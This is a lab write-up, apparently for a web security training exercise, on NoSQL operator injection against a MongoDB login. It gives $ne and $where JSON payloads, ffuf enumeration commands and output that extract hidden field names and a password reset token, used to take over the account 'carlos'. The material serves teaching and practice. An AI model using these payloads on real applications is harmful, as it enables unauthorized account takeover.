 # Exploiting NoSQL operator injection to extract unknown fields
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, log in as `carlos`.

# Solution
## Analysis

|![](Images/image-24.png)|
|:--:| 
| *Malicious payload leads to account lock* |

Using the following payloads it is possible to change application response by changing value after `$where` statement:
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"0"}
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"1"}
```

|![](Images/image-25.png)|
|:--:| 
|![](Images/image-26.png)|

## Extracting field names
The following payload will allow to retrieve field names letter by letter. When the letter is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password".
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
```
### Burp Suite enumeration
|![](Images/image-27.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-28.png)|
| *Payload settings* |
|![](Images/image-29.png)|
| *Payload settings* |
|![](Images/image-30.png)|
| *Results* |

### FFUF enumeration
```
ffuf -request request.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```

|![](Images/image-31.png)|
|:--:| 
| Enumeration for 0 - field name `id` |
|![](Images/image-32.png)|
| Enumeration for 1 - field name `username` |
|![](Images/image-33.png)|
| Enumeration for 2 - field name `password`|
|![](Images/image-34.png)|
| Enumeration for 3 - field name `email` |
|![](Images/image-35.png)|
| Enumeration for 4 - field name `pwResetTkn`|

Enumeration for `4` result in internal server errors.

Website `/forgot-password` is used to validate token:

|![](Images/image-36.png)|
|:--:| 
| Token test |

## Password enumeration
### Burp Suite enumeration
The following payload will allow to retrieve carlos's password reset token letter by letter. When the letter in token is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password":
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"this.pwResetTkn.match('^.{§0§}§a§.*')"}
```
|![](Images/image-37.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-38.png)|
|:--:| 
| *Results* |

### FFUF enumeration
```
ffuf -request req.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```
Result:
```
[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 220ms]
    * FUZZLETTER: a
    * FUZZNUM: 6

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: c
    * FUZZNUM: 3

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 55ms]
    * FUZZLETTER: e
    * FUZZNUM: 10

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 58ms]
    * FUZZLETTER: f
    * FUZZNUM: 4

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 81ms]
    * FUZZLETTER: f
    * FUZZNUM: 5

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 54ms]
    * FUZZLETTER: c
    * FUZZNUM: 14

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 271ms]
    * FUZZLETTER: 1
    * FUZZNUM: 11

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 66ms]
    * FUZZLETTER: 2
    * FUZZNUM: 12

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 57ms]
    * FUZZLETTER: 2
    * FUZZNUM: 15

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 62ms]
    * FUZZLETTER: 3
    * FUZZNUM: 0

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: 5
    * FUZZNUM: 1

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 56ms]
    * FUZZLETTER: 6
    * FUZZNUM: 13

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 8

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 7

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 49ms]
    * FUZZLETTER: 9
    * FUZZNUM: 2

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 500ms]
    * FUZZLETTER: 9
    * FUZZNUM: 9
```
Token for password reset: `359cffa889e126c2`

## Password reset

|![](Images/image-40.png)|
|:--:| 
| *Requesting password reset page* |
|![](Images/image-39.png)|
| *Resetting password* |